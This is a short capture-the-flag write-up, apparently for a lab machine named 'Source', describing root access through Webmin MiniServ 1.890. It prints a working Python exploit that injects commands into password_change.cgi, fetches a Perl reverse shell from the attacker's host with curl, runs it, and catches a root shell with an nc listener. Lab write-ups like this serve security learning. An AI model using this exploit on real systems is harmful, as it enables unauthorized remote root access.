 # Source

`nmap` found two open ports for us.

> 22 ssh<br>
> 10000 snet-sensor-mgmt MiniServ 1.890 (Webmin httpd)<br>

I went to https://source.thm:10000 and found there:<br>
![webmin](./imgs/webmin.png)

I looked for `MiniServ 1.890 exploit` in Google and found a Python script, which turned out to work.<br>

Then I changed the script a little bit so that I understand it and have more control over it.<br>
Also, I found a good perl `reverse-shell`, and set up `python3 -m http.server`, set up an `nc -lvnp 2222`, and ran my new script.
```
import os

target = "source.thm"
port = "10000"
url = "https://"+target+":"+port+"/password_change.cgi"

rhost = "10.2.116.12"
rport = 2222

command1 = "curl -o perl_shell.pl http://10.2.116.12:8000/perl_shell.pl"
command2 = "perl perl_shell.pl"

header = f'Referer: https://{target}:{port}/session_login.cgi'

payload = f'user=gotroot&pam=&expired=2|echo "";{command1}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")

payload = f'user=gotroot&pam=&expired=2|echo "";{command2}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")
```

And that is how you got `root` in your `nc` listener.
Then
```
python3 my_exp.py
```
And the nc listener will get you a root reverse-shell.

